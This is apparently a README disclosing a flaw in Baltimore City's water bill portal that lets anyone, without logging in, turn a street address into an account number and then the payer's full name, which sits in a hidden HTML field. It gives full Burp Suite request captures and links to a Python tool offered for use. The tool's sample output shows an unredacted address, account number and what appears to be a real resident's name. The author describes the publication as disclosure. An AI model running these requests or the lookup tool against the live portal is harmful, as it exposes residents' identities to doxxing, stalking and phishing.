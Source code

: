 # BaltimoreCity-WaterBill-InfoDisclosure
- The Baltimore City water bill portal suffers from an information disclosure vulnerability allowing anyone to view who is paying the bill for a particular address

## How it all started: 
Baltimore City public services are not known for their successes, quite the contrary. From a 2019 Ransomware attack that left key services crippled, to customer information being "hidden" on the Water Bill portal, the city truly needs a new, refreshing outlook on cybersecurity. This comes just after the Baltimore City public school systems fell prey to a massive data breach

https://en.wikipedia.org/wiki/2019_Baltimore_ransomware_attack
https://www.wbaltv.com/article/cyberattack-baltimore-city-public-schools-students-staff-cloak/64543595
https://www.verizon.com/business/resources/articles/s/lessons-from-the-robbinhood-ransomware-attack-on-baltimore/

City residences are forced to pay their water bill on a monthly basis manually, as there is no auto-pay option, dispite auto-pay being almost universal across America in 2025.
Customers can look up their account information via service address or 11 digit account number. While there is a "create account option" It is not provided on the main page. Accessing an account via street address (any address, unauthenticated) will yield you the users 11 digit account number. Personally, I believe account numbers should be provided only to the individual that lives at the residence, as this opens the door to phishing attacks, OSINT.
As you can see above, and below, I have accessed the account information for a residence in Baltimore City without authenticating, or providing proof that I am a resident at the aforementioned address. Keep in mind, the owners name is no where to be found on the "Water Bill Details" page. We will see a bit later that this is not entirely true.
When analyzing the requests in Burp Suite, we can see the first request for the main page looks very standard
````
GET /water HTTP/1.1
Host: pay.baltimorecity.gov
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
````
- The response is equally mundane, however its trivial to programmatically retrieve any service account based upon a street address, as we saw above albeit manually.

````
POST /water/_getInfoByServiceAddress HTTP/1.1
Host: pay.baltimorecity.gov
Cookie: .AspNetCore.Antiforgery.JY-etYUE_us=CfDJ8EBkMsT-U-RHiQLECtE6oX3-APJ8UP_7dagFAzSoAh6HXeLRm3ypQVDbOZwKMxVjN9narb_PssUyWDMQrkoa2jv6pJNNFk_cSq-3RHQd7dnJXYNC1lEX4kRZof_AC8SydPSG2m1BWAXmwe99MNaAEcY; vxu=H2d1XUyWvCg7GGuFeovv_A; vxr=6.46; vxp=1
Content-Length: 32
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: https://pay.baltimorecity.gov
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://pay.baltimorecity.gov/water
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

serviceAddress=<REDACTED>
````
- After obtaining the account number via a serviceAddress query, one can simply pull the entire account information by querying the api via serviceAccount, as seen below
````
POST /water/_getInfoByAccountNumber HTTP/1.1
Host: pay.baltimorecity.gov
Cookie: .AspNetCore.Antiforgery.JY-etYUE_us=CfDJ8EBkMsT-U-RHiQLECtE6oX3-APJ8UP_7dagFAzSoAh6HXeLRm3ypQVDbOZwKMxVjN9narb_PssUyWDMQrkoa2jv6pJNNFk_cSq-3RHQd7dnJXYNC1lEX4kRZof_AC8SydPSG2m1BWAXmwe99MNaAEcY; .AspNetCore.Mvc.CookieTempDataProvider=CfDJ8EBkMsT-U-RHiQLECtE6oX0xUs6stwrVsw_-zh2jG127fj0B7SIbquRnqsWhoFaKVW2QnmG3z64JzD2yT3Y4Ny1Zz5v30XjNAQMb95-HrN_kMVsbq93xIKx_wCL05JqM1TSnpSH7QyVL5hGBOoKykon3PNLQMs6KizNCI8OLaaJVnZPzWpfuPi0_OxqEMIDJRTBaGrjv0Hp40rRZetZ9ZCU; vxu=H2d1XUyWvCg7GGuFeovv_A; vxr=6.46; vxp=1
Content-Length: 208
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://pay.baltimorecity.gov
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://pay.baltimorecity.gov/water
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

AccountNumber=<REDACTED>&__RequestVerificationToken=CfDJ8EBkMsT-U-RHiQLECtE6oX0uWZpxUB0_1C_4rlEINI7Uxw43YMK2SmuO7PyXwnd3mXssu0lQcVmAGXbidXnGaDuNbvtCwaNDAcTGYTfjtu3g4nix4L8DyxcLOAXqz4WTrRD4Cq_3P02GIuJbDkLrwKs
````
- When this request is returned you will be re-directed and another GET request will be made. This request lines up with the "Water Bill Details" page that we previously saw when browsing the site manually. To my astonishment, the full name of the individual paying the water bill is hidden in the HTML response! The full name is not rendered in the HTML to the end user as the attribute is of type hidden.
````
GET /water/bill HTTP/1.1
Host: pay.baltimorecity.gov
Cookie: .AspNetCore.Antiforgery.JY-etYUE_us=CfDJ8EBkMsT-U-RHiQLECtE6oX3-APJ8UP_7dagFAzSoAh6HXeLRm3ypQVDbOZwKMxVjN9narb_PssUyWDMQrkoa2jv6pJNNFk_cSq-3RHQd7dnJXYNC1lEX4kRZof_AC8SydPSG2m1BWAXmwe99MNaAEcY; .AspNetCore.Mvc.CookieTempDataProvider=CfDJ8EBkMsT-U-RHiQLECtE6oX25egV1tivert_uOHC3tUXPNNRWpswDoi3DlV4nuAtWE-tLdn6JTziD8EdxmQ4SMThBK14zTLT0R7PmnDO9v8vYzzwP02IDq6K6Y6GkO4T-g4TCpWGkZnpuAVu5b4g-RlRxkhSKd_toccyiMMjsuHWiOYGZo26IFfLkNq0xbykTBUgSjmPnYbfbf8PyuYhgL-Y; vxu=H2d1XUyWvCg7GGuFeovv_A; vxr=6.46; vxp=3; vxl=1753033420
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://pay.baltimorecity.gov/water
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

// Response
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store
Pragma: no-cache
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/10.0
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: ALLOWALL
Set-Cookie: .AspNetCore.Mvc.CookieTempDataProvider=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/water; samesite=lax; httponly
X-Powered-By: ASP.NET
Date: Sun, 20 Jul 2025 17:44:55 GMT
Content-Length: 15971

--snip--
<div class="text-right">
<input data-val="true" data-val-required="The AccountNumber field is required." id="AccountNumber" name="AccountNumber" type="hidden" value="<REDACTED>" />
<input data-val="true" data-val-required="The ServiceAddress field is required." id="ServiceAddress" name="ServiceAddress" type="hidden" value="<REDACTED>       " />
<input data-val="true" data-val-number="The field Balance must be a number." id="Balance" name="Balance" type="hidden" value="46.1500" />
<input data-val="true" data-val-required="The CustomerName field is required." id="CustomerName" name="CustomerName" type="hidden" value="<REDACTED>          " />
<input id="BillDate" name="BillDate" type="hidden" value="7/14/2025 12:00:00 AM" /><input id="PenaltyDate" name="PenaltyDate" type="hidden" value="8/3/2025 12:00:00 AM" />                                        <button type="submit" class="btn btn-primary" id="btnPayOnline">&nbsp;Pay Online&nbsp;&raquo;</button>
</div>
--snip--
````
## Automation
After examining the requests and responses, I decided automating the owner name lookup via Python would be a very simple exercise. My decision to automate this script and write about the Information Disclosure issue is largely in part to Baltimore City not having a Bug bounty program, or any sort of contact information regarding website issues/vulnerabilities. After researching around, for longer than I care to admit, Maryland as a whole ran a Bug bounty program, however it was for a limited duration, and at the time of writing, they have shut the program down. I decided to reach out to some Baltimore City news outlets, in the hopes of potentially drawing attention to the issue, however no response was received. Thus, please see the below repo for the automated script:
- https://github.com/ice-wzl/BaltimoreCity-WaterBill-InfoDisclosure
## Running the Script
Running the script is as simple as providing a valid address in Baltimore City:
````
python .\get_name.py -h
usage: get_name.py [-h] -a ADDRESS

Get the name of a Baltimore City resident based on an address/account number, due to an information diclosure in the
Water Bill service.

options:
  -h, --help            show this help message and exit
  -a, --address ADDRESS
                        The address of the resident.

python3 .\get_name.py -a "1530 S Hanover St"
Anti-Forgery Cookie: {'.AspNetCore.Antiforgery.JY-etYUE_us': 'CfDJ8GzCaZHaEs5BtBOcODITSAxlBXA9xmM_Cm68CvhhflRXP6RtoWvah2YVL_7C0qoJxlXSY9hfWR8IYMTjZoRstd1Nn_GSZFBXFuvuxjS7QfvoTqn2oIwRd_8ljG_YGIe8O2mFL3i0AJ9eiRq50qdZPS8'}
Request Verification Token: CfDJ8GzCaZHaEs5BtBOcODITSAzGwFkbnMheH0_-0Mpq6vLjG5yFjDTOrXlrMjUu6wuD-ThhYkTBUNoYDzykOPZT5x1vaRB5rMu62I5RViqjMLKwMeJ6RSiW4aCCpTcvQVCJyOdhdL0NFJ5nieZqH6E1ulE
Account Number: 11000203544, Address: 1530 S HANOVER ST
Name associated with account number 11000203544: ABBY GUSTAITIS
````
- Contact: ice-wzl@protonmail.com